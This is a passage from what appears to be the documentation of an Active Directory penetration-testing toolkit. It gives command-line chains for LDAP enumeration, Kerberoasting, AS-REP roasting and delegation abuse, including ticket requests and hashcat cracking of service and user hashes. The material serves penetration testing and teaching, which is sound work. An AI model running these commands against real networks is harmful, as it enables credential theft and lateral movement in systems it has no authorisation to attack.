 ### Chain 3: LDAP → Delegation Abuse
```bash
# 1. Find delegation accounts
./ldapseek.py dclist.txt --full -u user -p pass
grep "TRUSTED_FOR_DELEGATION" ldap_details.txt

# 2. Compromise delegation account
# (via password crack, credential dump, etc.)

# 3. Request TGT for any user (if unconstrained delegation)
# Use Rubeus or Impacket for this
```

---

## 🔐 Attack Techniques

### Kerberoasting
**What:** Request TGS service tickets for accounts with SPNs, crack offline

**Why:** Service accounts often have weak passwords that never expire

**How:**
1. LDAPSeek identifies accounts with SPNs → `spns.txt`
2. KerbSeek requests TGS tickets for each SPN
3. Crack tickets with Hashcat (mode 13100)
4. Use cracked credentials for lateral movement

**Example:**
```bash
./ldapseek.py dclist.txt --spns -u user -p pass
../kerbseek/kerbseek.py --kerberoast --spns spns.txt -d CORP --dc dc01.corp.local
hashcat -m 13100 tgs_hashes.txt rockyou.txt
```

### ASREPRoasting
**What:** Request AS-REP for users without Kerberos pre-authentication

**Why:** No valid password needed - can attack without credentials!

**How:**
1. LDAPSeek identifies users with DONT_REQ_PREAUTH → `asrep_users.txt`
2. KerbSeek requests AS-REP without authentication
3. Crack AS-REP with Hashcat (mode 18200)
4. Use cracked password to access systems

**Example:**
```bash
./ldapseek.py dclist.txt --asrep  # No credentials needed!
../kerbseek/kerbseek.py --asreproast --users asrep_users.txt -d CORP --dc dc01.corp.local
hashcat -m 18200 asrep_hashes.txt rockyou.txt
```

### Unconstrained Delegation
**What:** Accounts with TRUSTED_FOR_DELEGATION can impersonate any user
